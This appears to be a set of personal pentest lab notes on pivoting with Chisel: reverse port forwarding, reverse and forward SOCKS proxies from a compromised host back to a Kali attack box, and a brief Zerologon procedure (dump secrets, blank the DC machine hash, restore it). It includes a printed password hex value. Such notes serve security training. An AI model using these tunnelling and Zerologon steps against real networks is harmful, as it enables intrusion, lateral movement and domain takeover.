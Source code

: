 https://www.youtube.com/watch?v=pbR_BNSOaMk


# REVERSE PORT FORWARDING
## In Kali Attack machine (#1)
***Explanation:***
Setting up a reverse socks5 server on our kali attacking machine, by default on port 8080
```zsh
┌──(root💀gobots)-[05Mar2024 23:55:09]-[/opt/chisel]
└─# ./chisel_linux_amd64 server --socks5 --reverse
2024/03/05 23:55:33 server: Reverse tunnelling enabled
2024/03/05 23:55:33 server: Fingerprint 6bDaN0rUnulKJAQbpC1feeX+s5COPvZl6Nao0bHA+UQ=
2024/03/05 23:55:33 server: Listening on http://0.0.0.0:8080
2024/03/05 23:58:04 server: session#1: Client version (1.7.7) differs from server version (0.0.0-src)
2024/03/05 23:58:04 server: session#1: tun: proxy#R:8000=>172.16.1.30:80: Listening
```
## On Pivot Machine (#2)
***Explanation:***
- Utilizing fingerprint from the server results above.
- `10.10.14.39:8080` = the server IP address and port to connect to the server on.
- `R:` = Reverse port forward to state that we are pulling stuff back to our kali box.
- `8000:172.16.1.30:80` = Port 8000 on the kali box we want to map to the `172.16.1.30` on port `80`
```zsh
root@NIX01:~# ./chisel_64 client --fingerprint 6bDaN0rUnulKJAQbpC1feeX+s5COPvZl6Nao0bHA+UQ= 10.10.14.39:8080 R:8000:172.16.1.30:80
<6Nao0bHA+UQ= 10.10.14.39:8080 R:8000:172.16.1.30:80
2024/03/05 15:59:09 client: Connecting to ws://10.10.14.39:8080
2024/03/05 15:59:09 client: Fingerprint 6bDaN0rUnulKJAQbpC1feeX+s5COPvZl6Nao0bHA+UQ=
2024/03/05 15:59:09 client: Connected (Latency 31.057469ms)
```
# Testing
So now when we are browsing to port `8000` on our local host we will see the `port 80` on the `172.16.1.30`
- here we can see the web server.
![[Pasted image 20240305213758.png]]
# SOCKS PROXY

## In Kali Attack machine (#1)
***Explanation:***
Setting up a reverse socks5 server on our kali attacking machine, by default on port 8080
```zsh
┌──(root💀gobots)-[05Mar2024 23:55:09]-[/opt/chisel]
└─# ./chisel_linux_amd64 server --socks5 --reverse
2024/03/05 23:55:33 server: Reverse tunnelling enabled
2024/03/05 23:55:33 server: Fingerprint 6bDaN0rUnulKJAQbpC1feeX+s5COPvZl6Nao0bHA+UQ=
2024/03/05 23:55:33 server: Listening on http://0.0.0.0:8080
2024/03/05 23:58:04 server: session#1: Client version (1.7.7) differs from server version (0.0.0-src)
2024/03/05 23:58:04 server: session#1: tun: proxy#R:8000=>172.16.1.30:80: Listening
2024/03/06 02:44:26 server: session#2: Client version (1.7.7) differs from server version (0.0.0-src)
2024/03/06 02:44:26 server: session#2: tun: proxy#R:127.0.0.1:1080=>socks: Listening

```

## On Pivot Machine (#2)
***Explanation:***
- Utilizing fingerprint from the server results above.
- `10.10.14.39:8080` = the server IP address and port to connect to the server on.
- `R:` = Reverse port forward to state that we are pulling stuff back to our kali box.
- `socks` = utilize the port associated with `1080` ensure to change `/etc/proxychains`
```zsh
root@NIX01:~# ./chisel_64 client --fingerprint 6bDaN0rUnulKJAQbpC1feeX+s5COPvZl6Nao0bHA+UQ= 10.10.14.39:8080 R:socks
<1feeX+s5COPvZl6Nao0bHA+UQ= 10.10.14.39:8080 R:socks
2024/03/05 18:45:31 client: Connecting to ws://10.10.14.39:8080
2024/03/05 18:45:31 client: Fingerprint 6bDaN0rUnulKJAQbpC1feeX+s5COPvZl6Nao0bHA+UQ=
2024/03/05 18:45:31 client: Connected (Latency 28.564871ms)
```
changing proxychains conf
![[Pasted image 20240305214756.png]]
# Testing that it works
***Testing via curl***
![[Pasted image 20240305215001.png]]
***FoxyProxy setup***
- ensure to turn on
![[Pasted image 20240305215123.png]]
***Able to browse***
![[Pasted image 20240305215157.png]]
# Forward Dynamic SOCKS Proxy
- Run the Chisel server on the target box
- Use the target box as a jump host to reach additional targets routable by the target
- The traffic flows forward to the target box, which acts as a transparent SOCKS proxy
#### **Network Diagram**
```powershell

  SCENARIO
   --------
 You have landed on a target that has access to ADDITIONAL TARGET(s) and/or ADDITIONAL ROUTE(s)
  Run a CHISEL SERVER ON TARGET BOX and connect to it using a CHISEL CLIENT ON ATTACK BOX

   Open 127.0.0.1:50080 on attack box and use this TCP connection as a SOCKS5 proxy
All traffic flowing through the SOCKS5 proxy will be routed by TARGET BOX to any specified destination
  
   CHISEL CLIENT and CHISEL SERVER establish a TCP session using HTTP web sockets
  The port forwarding is secured between the two using SSH tunnels flowing through the web sockets
  
  
 _____________________                                                                                                       _____________________                             _______                _______
|                     |                                                                                                     |                     |                           |       |              |       |
|                     |                        ___________________________________________________                          |                     |                           |       |    _______   |       |          
|     ATTACK BOX      |                       |                 ===============>>                 |                         |     TARGET BOX      | <<===================>>    -------    |       |   -------
|                     | =====[SSH TUNNEL]=====|                 [HTTP WEB SOCKET]                 |=====[SSH TUNNEL]=====>> |                     | -----SOCKS5 PROXY----->               |       |
|    CHISEL CLIENT    | |                     |___________________________________________________|                         |    CHISEL SERVER    | <<===================>>    _______     -------    _______
|                     | |                                                                                                   |                     |                           |       |              |       |
|_____________________| |                                                                                                   |_____________________|                           |       |              |       |  
                        |                                                                                                                                                      -------                -------
   127.0.0.1:50080------'                                                                                                                                                      ADDITIONAL TARGETS OR NETWORKS
```

## Chisel Server on Target

```zsh
# Chisel server is listening on TCP port 51234
# Make sure this port is open in the firewall
/tmp/chisel server --socks5 --port 51234
```

## Chisel Client on Attack Box

```zsh
 # Open a single SOCKS5 proxy port on the attack box                                                                                                                      
/tmp/chisel client target-box-ip:51234 50080:socks
                                        ^
                                        |____attack-port:socks
```


# zerologon
```powershell
my notes weren't the greatest but short is get secretsdump PRIOR to exploit to get machine hash, throw metasploit exploit to blank it, run secretsdump, then exploit again with restore.  The hash should look something like this 
$:plain_password_hex:0c684056d1dab8685146827fb42f719b516f1d5f3ba9128486a543413ae778b0f67ec2d05bd4c084cfd9c16995977c5fb4b638cb07b2b33208c7a2cd73b587942b369bfa243c5532c05c4159b9e63b9fbfd77dc458739b687d285071e8776944bc8845bba499bba2d471dae635af4d038628e663903553983c480bc7af3ac9d4dc7004bb814b0c30cc9ae31ede19263fd49a27bb9aeaa622091f5b4d83652066352a3034da68392f1bb650d94e86731ee43c42a46a49d7c8ddad2ae6f006e067a436f79186dc48197f289fa5f24c0967b48bb5723d2b4e37345c1adb4042d5b63976469cb74b2ddac6d9c9ce83af200d
[4:50 PM]
if you compare secretsdump before and after exploit and they match, you have done it right
```


DC -> Kali client port forward

On Kali Machine Target
setting up chisel server on port 1000
```bash
# Chisel server is listening on TCP port 445
# Make sure this port is open in the firewall
/tmp/chisel server --socks5 --port 1000
```

Full Explanation:
172.16.5.194:1000 = connecting the chisel server and client on port 1000
DC IP:8000:172.16.5.194:445  = anything that is hitting the DC on port 8000 get forwarded to 172.16.5.194 on port 445
```bash
# Example shows multiple port forwards
# You can specify one or many port forwards
# Add or remove port forward declarations as needed
C:\windows\tasks\chisel_windows client 172.16.5.194:1000 <DC IP>:8000:172.16.5.194:445 
```




